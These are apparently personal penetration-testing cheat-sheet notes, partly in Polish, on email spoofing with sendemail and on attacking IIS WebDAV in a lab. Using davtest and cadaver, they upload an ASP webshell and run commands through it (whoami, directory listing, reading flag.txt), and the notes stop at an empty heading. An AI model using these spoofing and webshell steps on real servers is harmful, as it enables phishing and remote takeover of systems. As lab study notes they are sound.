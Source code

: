 ## sendmail

```bash
$ sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no

```

# IIS - WebDAV (T:80/443)
Microsoft IIS (Internet Information Services) - Proprietary web server software developed by Microsoft that runs on Windows. 
WebDAV (Web Distributed Authoring & Versioning) -  HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server.
Sprawdzić nagłówkiem `HTTP OPTION` jakie opcje są dostępne 
Supported executable file extensions: `.asp`, `.aspx`, `.config`, `.php`
## $ hydra

![[hydra#Http-get (WebDAV)]]
## $ davtest

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

```bash
$ davtest -url http://10.0.16.177/webdav
$ davtest -auth bob:password_123321 -url http://10.0.16.177/webdav
```

## $ cadaver

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

```bash
$ cadaver
> open http://target/webdav
 username: ...
 password: ...
> put /usr/share/webshells/asp/webshell.asp # wgranie webshella na server
# otworzyć webshell w przeglądarce

http://target/webdav/webshell.asp?cmd=whoam
http://target/webdav/webshell.asp?cmd=dir+C%3A%5C
http://target/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```

## $ msf
